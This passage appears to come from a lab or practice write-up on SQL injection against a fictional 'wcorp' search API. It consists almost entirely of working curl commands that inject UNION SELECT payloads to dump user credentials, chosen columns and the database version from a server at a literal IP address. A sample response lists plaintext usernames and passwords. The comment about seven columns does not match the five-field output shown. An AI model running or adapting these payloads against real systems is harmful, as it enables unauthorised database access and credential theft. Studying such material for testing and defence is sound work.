 
## 💎 Data Extraction (UNION SELECT)

### Extract All User Credentials

```bash
# The users table has 7 columns, so we need 7 values in UNION SELECT
curl -X POST http://174.138.71.77/api/search \
  -H "Content-Type: application/json" \
  -d '{"query":"test'\'' UNION SELECT * FROM users-- "}'
```

**Expected Response:**
```json
{
  "success": true,
  "results": [
    {
      "id": 1,
      "username": "admin",
      "password": "admin123",
      "email": "admin@wcorp.com",
      "role": "admin"
    },
    {
      "id": 2,
      "username": "john.doe",
      "password": "password123",
      "email": "john.doe@wcorp.com",
      "role": "user"
    }
  ]
}
```

---

### Extract Specific Columns

```bash
# Extract id, username, password (7 columns required)
curl -X POST http://174.138.71.77/api/search \
  -H "Content-Type: application/json" \
  -d '{"query":"test'\'' UNION SELECT id,username,password,email,role,created_at,updated_at FROM users-- "}'
```

---

### Extract Database Version

```bash
curl -X POST http://174.138.71.77/api/search \
  -H "Content-Type: application/json" \
  -d '{"query":"test'\'' UNION SELECT 1,@@version,3,4,5,6,7-- "}'
```

---